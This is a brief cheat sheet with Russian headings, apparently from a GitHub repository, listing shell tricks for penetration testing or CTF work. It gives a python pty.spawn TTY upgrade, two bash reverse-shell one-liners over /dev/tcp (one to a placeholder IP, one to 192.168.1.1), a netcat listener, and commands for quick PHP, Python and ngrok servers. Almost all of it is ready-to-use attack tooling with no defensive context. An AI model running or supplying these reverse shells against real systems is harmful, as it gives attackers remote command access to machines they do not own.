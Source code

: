 ```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
аналог nc:
```bash
bash -c "bash -i >& /dev/tcp/{your_IP}/{your_listeniing_port} 0>&1"
```

поднять сервер:

```php
php -S {ip}:{port}
```
```python
python3 -m http.server {port}
```
```bash
ngrok http 9001
```
выполнить подключение:
слушать порт:
```
nc -lvnp {port}
```
подключиться к прослушиваемому порту:
``` 
bash -i >& /dev/tcp/192.168.1.1/{port} 0>&1
```